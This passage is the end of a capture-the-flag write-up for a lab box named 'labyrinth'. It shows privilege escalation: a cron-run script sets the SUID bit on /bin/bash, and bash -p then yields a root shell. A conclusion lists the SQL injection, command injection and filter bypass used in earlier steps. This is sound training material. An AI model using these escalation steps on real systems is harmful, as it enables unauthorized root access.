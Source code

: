 Now **wait for the cronjob runs**:

```
daemon@labyrinth:/timers$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1,1M jún    7  2019 /bin/bash
```

We can confirm the script is being ran by issuing `ls -lah /bin/bash`. If you see there is a **`s` sticky bit**, that means the script is **successfully executed**.

Now, we spawn a SUID privilege bash shell!

```
daemon@labyrinth:/timers$ /bin/bash -p
bash-4.4# whoami;hostname;id;ip a
root
labyrinth
uid=1(daemon) gid=1(daemon) euid=0(root) egid=0(root) groups=0(root),1(daemon)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:9d:55:2f:26:31 brd ff:ff:ff:ff:ff:ff
    inet 10.10.92.1/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2260sec preferred_lft 2260sec
    inet6 fe80::9d:55ff:fe2f:2631/64 scope link 
       valid_lft forever preferred_lft forever
```

And we're root! :D

# Rooted

**da_king_flek.txt :**
```
bash-4.4# cat /root/da_king_flek.txt
fL4G{Redacted}
```

# Conclusion

What we've learned:

1. Reverse Enigineering Javascript
2. Union-Based SQL Injection
3. Command Injection
4. Filter Bypass
5. Privilege Escalation via Misconfigured Bash Script & Cronjob